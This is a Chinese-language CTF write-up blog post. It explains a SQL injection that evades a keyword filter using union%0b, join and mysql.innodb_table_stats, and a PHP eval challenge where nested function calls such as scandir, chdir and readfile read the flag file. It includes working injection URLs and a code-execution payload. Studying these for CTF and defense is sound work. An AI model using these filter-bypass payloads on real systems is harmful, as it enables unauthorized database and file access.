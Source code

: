 ```yaml
---

layout:     post                    # 使用的布局（不需要改）
title:      对两道CTF题目的研究               # 标题 
subtitle:    #副标题
date:       2019-11-15              # 时间
author:     Von                      # 作者
header-img: img/post-bg-swift.jpg
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - CTF
    - SQL
    - PHP 

---
```


# sql注入
首先经过fuzz,得出主要过滤了以下字符:
```  sql
and(&&) or(||) , max min -- xor ^  updatexml sleep if (union select) 
```
首先union select我们可以用union%0b绕过,至于逗号我们可以用join绕过。但是最蛋疼的是or被过滤，而我们的information_schema中有or,看了wp才了解了一种新的方法。

在此之前我们先来学习一下相关的知识。

## mysql.innodb_table_stats表
在mysql5.6以上的版本中，会在系统库MYSQL库中存在两张与innodb相关的表innodb_index_stats和innodb_table_stats。
其中innodb_index_stats存储的是innodb引擎的库名,表名及其对应的索引名称，也就是和information_schema.schemata差不多。
innodb_table_stats存储的是innodb引擎的库名和表名,也就是和information_schema.tables差不多。
其结构如下:
![](/img/SQLI1.png)
那么也就意味着我们可以在注入中使用如:
``` sql
group_concat(table_name) from mysql.innodb_table_stats where database_name = database()
```
来代替:
``` sql
group_concat(table_name) from information_schema.tables where table_schema = database()
```
当然，这种方法的缺点就是它没有像information_schema.columns一样的表，所以没有办法用这种方法爆出列名，因此就需要借助我们接下来的子查询了。

## 子查询
> 子查询是将一个查询语句嵌套在另一个查询语句中。在特定情况下，一个查询语句的条件需要另一个查询语句来获取，内层查询(inner query)语句的查询结果，可以为外层查询(outer query)语句提供查询条件。
我们先来看一个例子:
``` sql
select 1,2,3,4,5,6,7,8 union select * from users
select (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users
```
![](/img/SQLI2.png)
可以看出，在我们不知道列名的情况下我们得到了一个新表，并且将列名用1，2，3代替了。  
接下来就可以利用子查询将数据归并。
``` sql
select `3` from (select 1,2,3,4,5,6,7,8 union select * from users)a limit 1 offset 1;
select x.3 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users)x limit 1 offset 1;
```
![](/img/SQLI3.png)

## 解决
所以我们可以构造出相应的payload:
``` sql
/article.php?id=0' union%0bselect * from (select 1)a join (select 2)b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)a join (select (select group_concat(table_name) from mysql.innodb_table_stats where database_name like database()))b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)z join (select i.3 from (select * from (select 1)a join (select 2)b join (select 3)c union%0bselect * from fl111aa44a99g)i limit 1 offset 1)x join (select 3)v join (select 3)n%23
```

# Decade
先来看核心代码:
``` php
<?php 
$code=@$_POST['code'];
if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    @eval($code);
                }
                }
else
{
    echo 'NO first';
}

?>
```

题目通过正则表达式来限制传入函数的模式只能为a(b(c()));类似的嵌套模式。同时还过滤了一些函数。首先我们需要读取文件，想到的是scandir();
但是无论是读取本文件夹的文件还是其他的我们都需要有个.。首先我们就要来考虑如何通过各种函数获取.。  

## 获取.。  
``` php
<?php
echo pos(localeconv());
# .
echo chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))));
# .
?>
```
通过上面两种操作我们可以得到.

## 进行chdir()
以上这两种办法可以得到.但是我们发现该文件夹里面只有一个index.php，所以我们需要跳到上一级目录，也就是进行chdir('...').  
至于如何获取...呢?scandir(’.’)扫描当前目录后回显是’.’,’…’，第二个元素是…,所以还需要通过chdir("…")来切换目录,chdir()的返回值为1.  

## 再次得到.
chdir()的返回值为1,我们需要从1得到.来让scandir()再次读取目录,我们可以用chr(46)得到.，所以问题就转化成如何从1得到46。  
其中一种方法是通过time()函数,该函数可参数可以随意传  
``` php
pos(localtime(time()));
```
该操作会返回一个0-60的值。  
故有最终payload:
``` php
code=echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```
多次发包即可得到flag.

# 参考文章
[CSDN的文章](https://blog.csdn.net/qq_40884727/article/details/102924492)  
[简书的文章](https://www.jianshu.com/p/6eba3370cfab)